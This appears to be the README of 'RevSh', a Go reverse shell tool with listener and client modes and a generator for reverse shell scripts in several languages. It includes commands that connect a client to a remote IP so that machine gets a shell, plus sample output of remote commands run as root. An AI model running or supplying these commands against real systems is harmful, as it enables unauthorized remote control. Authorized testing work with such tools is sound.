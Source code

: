 
# RevSh - Reverse Shell

RevSh is a simple reverse shell tool written in Go. It allows you to establish a reverse shell connection between a client and a server, enabling the server to execute commands on the client system. This project also includes functionality to generate reverse shell scripts in various programming languages.

## Features

- **Reverse Shell**: A basic reverse shell that allows a server to execute commands on the client machine.
- **Cross-Platform Support**: The reverse shell works on both Windows and Unix-based systems (Linux/macOS).
- **Script Generation**: Generates reverse shell scripts in multiple languages:
  - PHP
  - Bash
  - Python
  - C#
  - Java

## Usage

### Running the Reverse Shell

You can run RevSh in two modes:
1. **Server Mode**: The server listens for incoming connections from a client.
2. **Client Mode**: The client connects to a server and waits for commands.

### Flags

- `-l`: Run in server mode and listen for incoming reverse shell connections.
- `-r`: Run in reverse shell mode as the client, connecting to the server.
- `-g`: Generate reverse shell scripts in different languages.
- `-p`: Specify the port for communication (default: `9999`).
- `-h`: Specify the server IP address (only used in client mode).

### Examples

#### 1. Running in Server Mode

To start the server, listening for reverse shell connections on port 9999:

```bash
go run main.go -l -p 9999
```

#### 2. Running in Client Mode

To run the client and connect to the server (e.g., 192.168.1.100) on port 9999:

```bash
go run main.go -r -h 192.168.1.100 -p 9999
```

#### 3. Generating Reverse Shell Scripts

To generate a reverse shell script in Bash for a target with IP `192.168.1.100` on port `9999`:

```bash
go run main.go -g -lang bash -h 192.168.1.100 -p 9999
```

Supported languages for script generation:
- `php`
- `bash`
- `python`
- `c#`
- `java`

### Usage Example

#### Server Side:

```bash
$ go run main.go -l -p 9999
Server listening on port 9999...
Client connected: 192.168.1.101:12345
Shell> whoami
root
Shell> ls
file1.txt
file2.txt
```

#### Client Side:

```bash
$ go run main.go -r -h 192.168.1.100 -p 9999
Connected to server 192.168.1.100:9999
```

### Exit the Shell

To exit the reverse shell, type `exit` in the server terminal:

```bash
Shell> exit
```

## How It Works

### Server

- The server listens for incoming connections on the specified port.
- Once connected, the server can send commands to the client.
- The client executes the command and returns the result to the server.

### Client

- The client connects to the server's IP and port, awaiting commands.
- When a command is received, the client executes the command on the local system and sends back the output.

## Supported Platforms

- **Windows**
- **Linux**
- **macOS**

## Reverse Shell Script Generation

RevSh can generate reverse shell scripts in various languages. You can use these scripts to trigger reverse shell connections from a remote machine to your server.

## Security Warning

This tool is meant for educational purposes or authorized penetration testing only. Misuse of this tool may lead to legal consequences. Ensure you have proper authorization before using RevSh on any system or network.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
